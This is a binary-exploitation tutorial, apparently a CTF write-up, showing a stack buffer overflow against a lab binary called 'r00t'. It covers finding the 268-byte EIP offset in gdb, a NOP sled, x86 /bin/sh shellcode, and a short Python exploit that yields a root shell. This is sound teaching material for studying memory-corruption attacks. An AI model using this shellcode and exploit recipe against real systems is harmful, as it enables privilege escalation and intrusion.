 ```yaml
---
title: Buffer Overflow - Shellcode Injection Tutorial
description: A buffer overflow tutorial.
categories:
 - binary exploitation
tags: binary exploitation, bof
---
```


First step always, let's check binary protections using `checksec.sh`.

```bash
$ wget -q https://raw.githubusercontent.com/slimm609/checksec.sh/master/checksec -O /tmp/checksec.sh
$ chmod +x /tmp/checksec.sh
$ /tmp/checksec.sh --file=r00t
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   73 Symbols     No	0		2	r00t
```

Great, this should be easy. Now let's run the binary to check what it does.

```bash
$ ./r00t
Usage: ./r00t input
$ ./r00t test
test
```

Takes an argument and print it. Let's find out if the binary is vulnerable or not by trying to crash it.

```bash
$ ./r00t $(python -c 'print "A" * 300')
Segmentation fault
```

`Segfault` -> accessing memory that does not belong to us.
 
It crashes before 300 bytes, next step is to know where exactly does it crash. (finding the offset, how many chars overwrite EIP)

```bash
$ ./pattern_create.rb -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

$ gdb -q ./r00t
Reading symbols from /nothing_to_see_here/choose_wisely/door3/r00t...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
Starting program: /nothing_to_see_here/choose_wisely/door3/r00t Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Program received signal SIGSEGV, Segmentation fault.
0x6a413969 in ?? ()

$ ./pattern_offset.rb -q 0x6a413969
[*] Exact match at offset 268
```

Great offset is 268, after 268 bytes we can overwrite EIP.

EIP (Extended Instruction Pointer) register tells the computer where to go next to execute the next command.

Let's verify that we overwrite EIP.

```bash
(gdb) r $(python -c 'print "A" * 268 + "B" * 4 + "\x90" * 20')

Starting program: /nothing_to_see_here/choose_wisely/door3/r00t $(python -c 'print "A" * 268 + "B" * 4 + "\x90" * 20')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) i r
eax            0x124	292
ecx            0x0	0
edx            0x0	0
ebx            0xb7fd1ff4	-1208147980
esp            0xbffffb60	0xbffffb60
ebp            0x41414141	0x41414141
esi            0x0	0
edi            0x0	0
eip            0x42424242	0x42424242
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) 
```

`0x42 = B`

`\x90 = NOP/no-op is an assembly instruction that does nothing.`

We use NOPS to make sure that our exploit doesn’t fail.

Now let's get the location of ESP.

```bash
(gdb) i r esp
esp            0xbffffb60	0xbffffb60
```

Now let's take some shellcode.

Shellcode is our payload, lot of `\x**` characters together. Shellcode will gives us a shell.

We're on x86 OS :

```bash
(gdb) shell uname -m
i686
```

So we will search for x86 /bin/sh shellcode. We can use this 23bytes one [shellcode /bin/sh](http://shell-storm.org/shellcode/files/shellcode-827.php)

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

So the idea of the exploit will be this :

We will fill the buffer with “A”, we will reach the EIP and overwrite it with a new address that points to our shellcode, then we will add NOPS , and finally the shellcode.

The exploit will look like this :

`"A" * 268 + ESP Location Reversed + NOPS + Shellcode`

When you debugging a binary in gdb or whatever debugger you choose, the actual memory location of everything in that binary might be slightly off, so let's add 1-2 addresses later.

```bash
(gdb) x/250x $esp
0xbffffb60:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffb70:	0x90909090	0xbffffb00	0xbffffc00	0x00000000
0xbffffb80:	0x0804823c	0xb7fd1ff4	0x00000000	0x00000000
0xbffffb90:	0x00000000	0x8a38a138	0xbd674528	0x00000000
```

We can use `0xbffffb80` :

```bash
$ ./r00t $(python -c 'print "A" * 268 + "\x80\xfb\xff\xbf" + "\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
# whoami; id
root
```

We have root shell!, we can also code a simple exploit for that.

```python
from struct import pack
 
def p(x):
    return pack('<L', x)

padding = "A" * 268
EIP = p(0xbffffb80)
NOPS = "\x90" * 20
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
print padding + EIP + NOPS + shellcode
```

```bash
$ ./r00t $(python /tmp/exp.py)
# whoami
root
```
